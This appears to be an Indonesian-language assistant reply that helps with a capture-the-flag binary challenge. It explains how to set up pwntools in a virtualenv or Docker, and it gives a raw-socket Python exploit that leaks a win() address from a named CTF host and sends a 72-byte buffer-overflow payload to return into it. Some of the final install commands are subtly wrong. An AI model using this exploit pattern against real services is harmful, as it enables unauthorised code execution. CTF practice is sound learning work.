 Kalau kamu belum bisa install `pwntools` karena keterbatasan lingkungan, ada beberapa solusi tergantung sistem dan kondisimu. Aku jelaskan beberapa cara:

---

## 🛠️ 1. **Coba pakai Python Virtual Environment**

Kalau sistemmu tidak punya `pwntools` tapi bisa install Python packages, coba:

```bash
sudo apt update
sudo apt install python3 python3-pip python3-venv -y

# Buat virtual environment
python3 -m venv pwnenv  # atau bisa dengan `python3 -m venv venv`
source pwnenv/bin/activate  # atau `source venv/bin/activate`

# Install pwntools
pip install --upgrade pip
pip install pwntools
```

> Kalau berhasil, jalankan semua script eksploitasi dalam venv ini: `source pwnenv/bin/activate`

(below this are unnecessary)
---

## 🧪 2. **Coba di Docker (lebih bersih dan portable)**

Kalau bisa pakai Docker:

```bash
sudo apt install docker.io -y
sudo docker run -it --rm --name pwnbox -v $(pwd):/ctf --workdir /ctf python:3.10 bash

# Di dalam container:
pip install pwntools
```

> Semua script bisa kamu taruh di folder lokal (`$(pwd)`), dan akan muncul di `/ctf` dalam container.

---

## 🔧 3. **Coba manual tanpa pwntools (pakai Python + `socket`)**

Kalau benar-benar tidak bisa install apa pun, kamu masih bisa eksploitasi pakai script Python dasar:

```python
import socket
import time
import struct

def p64(val):
    return struct.pack("<Q", val)  # little-endian 64-bit

s = socket.create_connection(("moklet-sec.site", 10000))

def recv_until(prompt):
    data = b""
    while not data.endswith(prompt):
        data += s.recv(1)
    return data

# Step 1: kirim 'leboy' dan ambil alamat win()
recv_until(b"ask yobel : ")
s.send(b"leboy\n")
leak_line = s.recv(1024).decode()
print("[+] Leak line:", leak_line)
win_addr = int(leak_line.strip(), 16)
print("[+] Win address:", hex(win_addr))

# Step 2: quit dan konfirmasi
recv_until(b"ask yobel : ")
s.send(b"quit\n")
recv_until(b"are you sure Y/N?")
s.send(b"Y\n")

# Step 3: exploit dengan payload overflow
recv_until(b"kata kata sebelum solve bang : ")
payload = b"A" * 72 + p64(win_addr)
s.send(payload + b"\n")

# Step 4: baca output (semoga flag!)
while True:
    try:
        print(s.recv(4096).decode(), end="")
    except:
        break

s.close()
```

> Script ini adalah versi **tanpa pwntools**, pakai `socket` dan `struct` biasa. Tetap bisa jalan asal tahu offset overflow-nya.

---

Jika berhasil, instal dengan menyalin command-command ini:
```bash
sudo apt install gdb pip
pip install pwn pwntools pwndbg --break-systempackages
git clone https://github.com/pwndbg/pwndbg
cd pwndbg
ls
./setup.sh
```
